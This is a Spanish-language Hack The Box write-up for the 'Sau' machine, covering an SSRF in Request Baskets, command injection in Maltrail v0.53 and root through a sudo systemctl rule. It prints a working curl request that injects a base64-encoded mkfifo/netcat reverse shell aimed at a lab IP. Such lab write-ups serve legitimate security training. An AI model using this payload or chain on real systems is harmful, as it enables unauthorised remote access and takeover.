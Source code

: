 ```yaml
---
title: 'Sau'
date: 2024-01-06T12:16:15-03:00
permalink: /posts/htb/:title/
categories: ["Writeups", "HTB"]
tags: ['Linux', 'SSRF', 'RCE', 'Requests Baskets', 'CVE-2023-27163', 'Maltrail']
---
```


![Sau](/assets/img/htb/sau/sau.png)

## Introducción

En este post estaremos resolviendo la máquina [Sau](https://app.hackthebox.com/machines/Sau) de la plataforma Hack The Box. Esta máquina presenta una versión de **Request Baskets** vulnerable a SSRF (Server Side Request Forgery) identificada como **CVE-2023-27163**. Al explotar esta vulnerabilidad, logramos acceder a una instancia de **Maltrail** que es vulnerable a RCE (Remote Command Execution) la cual no requiere autenticación, permitiéndonos obtener una reverse shell en la máquina victima con el usuario **puma**. Posteriormente, aprovechamos una mala configuración de **sudo** para escalar nuestros privilegios y obtener un shell como el usuario root.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Reconocimento usando el comando ping](/assets/img/htb/sau/sau-1.png)

Vemos que responde al envio de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live), en este caso 64.

## Enumeración

### Descubrimiento de puertos abiertos

Realizamos un escaneo con `nmap` para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

![Escaneo de puertos con nmap](/assets/img/htb/sau/sau-2.png)

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

Como podemos observar, el resultado del escaneo nos presenta 4 puertos. Donde el puerto `22` y `55555` estan abiertos y por otra parte los puertos `80` y `8338` estan filtrados.

### Enumeración de versión y servicio

![Descubrimiento de versión y servicio con nmap](/assets/img/htb/sau/sau-3.png)

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos determinados anteriormente.

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.

Solo por motivos de comodidad, agregamos al archivo `/etc/hosts` el dominio `sau.htb` para que al apuntar a este nos resuelva la ip de la máquina víctima.

```bash
❯ echo "10.10.11.224 sau.htb" | tee -a /etc/hosts
```
## Explotación de Request Baskets (SSRF)

Accedemos al sitio web que corre bajo el puerto 55555, podemos ver que la aplicación web es [Request Baskets](https://rbaskets.in/web) en su versión `1.2.1`.

![Requests Basktes](/assets/img/htb/sau/sau-4.png)

Si hacemos una búsqueda un Google, encontramos que esta versión es vulnerable a SSRF (Server Side Request Forgery) [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3), la cual afecta al componente de la api de Request Baskets `/api/baskets/{name}`.
Esto quiere decir, que esta vulnerabilidad permite a los atacantes acceder a recursos de red e información sensible mediante una solicitud API manipulada.

![New Baskte](/assets/img/htb/sau/sau-5.png)

Si creamos una nueva cesta, vemos que en principio esta vacia. Pero si realizamos solicitudes a la url `http://sau.htb:55555/kc75t4` como se nos indica, notamos que los detalles de la solicitudes son listados en el panel.

![Detalles de solicitud](/assets/img/htb/sau/sau-6.png)

Vemos también que podemos realizar algunas configuraciones, cambiando opciones como `Forward URL`.

Si tenemos en cuenta nuestro escaneo inicial de puertos, podemos recordar que el puerto `80` de la máquina victima estaba filtrado. Por lo tanto, podemos probar apuntar a ese puerto de la máquina, indicando como **Forward URL** el localhost (`http://127.0.0.1`). También debemos marcar la casilla `Proxy Response`, para que nos redirija las respuestas desde la URL de reenvío (en este caso el localhost).

![Configuración](/assets/img/htb/sau/sau-7.png)

Si ahora accedemos a la url `http://sau.htb:55555/kc75t4`, podemos notar que logramos acceder a un sitio web que en principio no teniamos acceso.
De esta manera, logramos aprovecharnos de la vulnerabilidad SSRF, para acceder a un sitio interno.

![Configuración](/assets/img/htb/sau/sau-8.png)

## Explotación de Maltrail - (RCE)

Podemos apreciar en el pie de página de la web, que lo que esta corriendo bajo el puerto 80 es la aplicación **Maltrail** en su versión **v0.53**.

Al investigar un poco sobre Maltrail en esta versión especifica, podemos notar que es vulnerable a RCE (Remote Code Execution) [Maltrail v0.53](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

![Mailtrail v0.53](/assets/img/htb/sau/sau-9.png)

## Reverse Shell - `puma`

Teniendo en cuenta que la aplicación es vulenrable a **RCE**, lancemos directamente una reverse shell para ganar acceso al sistema.

En primer lugar, creamos el payload a enviar.

![Reverse Shell](/assets/img/htb/sau/sau-10.png)

Luego, nos ponemos en escucha con `nc` por el puerto 4444.

Enviamos la reverse shell usando `curl`.

```bash
curl http://sau.htb:55555/kc75t4r/login --data 'username=;`echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjYyIDQ0NDQgPi90bXAvZgo=" | base64 -d | sh`'
```

De esta forma, ganamos acceso al sistema como el usuario `puma`.

![Reverse Shell](/assets/img/htb/sau/sau-11.png)

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Leemos el flag del usuario.

![Flag del usuario](/assets/img/htb/sau/sau-12.png)

## Escalación de privilegios

Al realizar una enumeración del sistema, observamos que tenemos la capacidad de ejecución con privilegios **sudo** sin necesidad de proporcionar contraseña. Esto nos permite utilizar la herramienta `systemctl` y verificar el estado del servicio `trail.service`.

![Enumeración del sistema](/assets/img/htb/sau/sau-13.png)

Si realizamos una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos ver que se puede abusar de este comando utilizando `!sh` para obtener un shell. 

![Escalada de privilegios](/assets/img/htb/sau/sau-14.png)

Esto sucede, debido a que `systemctl` utiliza `less` para mostrar el estado de un servicio.

![Escalada de privilegios](/assets/img/htb/sau/sau-15.png)

Por ultimo, leemos el flag del usuario `root`.

![Flag del usuario root](/assets/img/htb/sau/sau-16.png)

De esta forma, llegamos al final del Write-up de la máquina Sau.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a realizar la máquina.

Gracias por tu lectura!

Happy Hacking!
